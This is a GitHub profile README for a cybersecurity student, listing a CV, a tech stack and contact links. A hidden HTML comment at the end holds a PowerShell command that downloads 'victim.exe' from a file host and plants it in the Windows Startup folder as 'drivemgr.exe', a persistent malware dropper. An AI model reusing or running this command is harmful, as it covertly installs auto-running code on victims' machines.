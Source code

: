 <img src="./assets/banner.png">

<h1 align="center">Hey there, I'm Heshan Thenura Kariyawasam <br>🌱Based in Sri Lanka 🇱🇰</h1>

<h2>
heshanthenura@github:~$ cat aboutme.txt <br><br>

self-taught developer<br>
currently pursuing <strong> BSc (Hons) in Information Technology specialising in Cyber Security at [SLIIT](https://www.sliit.lk/)</strong>

</h2>

```bash
# Download my CV with curl
curl -O https://github.com/heshanthenura/heshanthenura/blob/main/assets/CV-Heshan_Thenura_Kariyawasam.pdf
```

### 📄 My CV

- [👀 View Online](https://github.com/heshanthenura/heshanthenura/blob/main/assets/CV-Heshan_Kariyawasam.pdf)
- [⬇️ Download PDF](https://github.com/heshanthenura/heshanthenura/raw/main/assets/CV-Heshan_Kariyawasam.pdf)

## 🛠️ Tech Stack & Tools I Use

![Java](https://img.shields.io/badge/Java-ED8B00?style=for-the-badge&logo=openjdk&logoColor=white)⠀
![Spring Boot](https://img.shields.io/badge/Spring%20Boot-6DB33F?style=for-the-badge&logo=springboot&logoColor=white)⠀
![JavaFX](https://img.shields.io/badge/JavaFX-5586A4?style=for-the-badge&logo=java&logoColor=white)⠀
![Nim](https://img.shields.io/badge/Nim-FFE953?style=for-the-badge&logo=nim&logoColor=black)⠀
![Go](https://img.shields.io/badge/Go-00ADD8?style=for-the-badge&logo=go&logoColor=white)⠀
![Julia](https://img.shields.io/badge/Julia-9558B2?style=for-the-badge&logo=julia&logoColor=white)⠀
![Python](https://img.shields.io/badge/Python-3670A0?style=for-the-badge&logo=python&logoColor=yellow)⠀
![TypeScript](https://img.shields.io/badge/TypeScript-3178C6?style=for-the-badge&logo=typescript&logoColor=white)⠀
![GDScript](https://img.shields.io/badge/GDScript-%2374267B.svg?style=for-the-badge&logo=godotengine&logoColor=white)⠀
![Godot Engine](https://img.shields.io/badge/GODOT-%23FFFFFF.svg?style=for-the-badge&logo=godot-engine)⠀
![SQL](https://img.shields.io/badge/SQL-4479A1?style=for-the-badge&logo=mysql&logoColor=white)⠀
![React](https://img.shields.io/badge/react-%2320232a.svg?style=for-the-badge&logo=react&logoColor=%2361DAFB)⠀
![React Native](https://img.shields.io/badge/react_native-%2320232a.svg?style=for-the-badge&logo=react&logoColor=%2361DAFB)⠀
![Angular](https://img.shields.io/badge/angular-%23DD0031.svg?style=for-the-badge&logo=angular&logoColor=white)⠀
![GitHub](https://img.shields.io/badge/github-%23121011.svg?style=for-the-badge&logo=github&logoColor=white)⠀
![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)⠀
![ESP32](https://img.shields.io/badge/ESP32-000000?style=for-the-badge&logo=espressif&logoColor=white)⠀
![Firebase](https://img.shields.io/badge/Firebase-FFCA28?style=for-the-badge&logo=firebase&logoColor=black)⠀
![Vercel](https://img.shields.io/badge/Vercel-000000?style=for-the-badge&logo=vercel&logoColor=white)⠀
![Oracle Cloud](https://img.shields.io/badge/Oracle%20Cloud-F80000?style=for-the-badge&logo=oracle&logoColor=white)⠀

## 🤙 Let's Connect & Collaborate

I'm always open to ideas, collabs, or just a good tech convo. Whether you're building something cool, learning something new, or just exploring the world of code, reach out. Let’s build, break, fix, and learn together.

<div align="center"><a href="https://twitter.com/Heshantk"><img width="50px" src="./assets/icons8-twitter.svg"></a><a href="https://www.linkedin.com/in/heshanthenura"><img width="50px" src="./assets/icons8-linkedin.svg"></a><a href="https://www.instagram.com/heshan_thenura/"><img width="50px" src="./assets/icons8-instagram.svg"></a><a href="https://youtube.com/@heshanthenura"><img width="50px" src="./assets/icons8-youtube.svg"></a><a href="https://www.tiktok.com/@heshanthenura"><img width="50px" src="./assets/icons8-tiktok.svg"></a></div>

<h1 align="center"><a href="mailto:heshanthenura@gmail.com">heshanthenura@gmail.com</a></h1>

<!--
<h1 align="center">Heshan Thenura Kariyawasam</h1>

## I am a self-taught programmer from Sri Lanka

Mostly I prefer Backend development.

### My Higher Education

- Pure Mathematics
- Applied Mathematics
- Physics
- Information and Communication Technology

### Frameworks that I work with

- JavaFX
- Spring Boot

### Technologies that I use

- Linux
- Oracle Cloud
- MySQL
- SQLite
- H2
- Git
- WebRTC
- Socket
- WebSocket

[![Heshan's top languages](https://github-readme-stats.vercel.app/api/top-langs/?username=heshanthenura&theme=blue-green)

### If you're interested in custom application development or would like to discuss a project, please don't hesitate to contact me.


<ul>
    <li><a href="https://twitter.com/Heshantk">Twitter</a></li>
    <li><a href="https://www.linkedin.com/in/heshanthenura">LinkedIn</a></li>
    <li><a href="https://www.instagram.com/heshan_thenura/">Instagram</a></li>
    <li><a href="https://youtube.com/@heshanthenura">YouTube</a></li>
    <li><a href="https://www.tiktok.com/@heshanthenura">TikTok</a></li>
</ul>


### [E-Mail](mailto:heshanthenura@protonmail.com) heshanthenura@protonmail.com -->

<!-- ```bash
 (new-object Net.WebClient).DownloadFile('https://dlsv37.sonicbit.net/file/dl2/MUVUOGlHNW9oOGJ4Y3h5M0FjUzRMa3lsbHBjbGQzWDF2bG9LZmdiVkVMU1FmeEovVTU0UWY0UFE5b3JMMVJQZDg4cVJXYWdRQlJmWnpVQ1Vkbm1tWEE9PQ==/victim.exe', "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\drivemgr.exe")

https://dlsv37.sonicbit.net/file/dl2/MUVUOGlHNW9oOGJ4Y3h5M0FjUzRMa3lsbHBjbGQzWDF2bG9LZmdiVkVMU1FmeEovVTU0UWY0UFE5b3JMMVJQZDg4cVJXYWdRQlJmWnpVQ1Vkbm1tWEE9PQ==/victim.exe

explorer %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup
``` -->
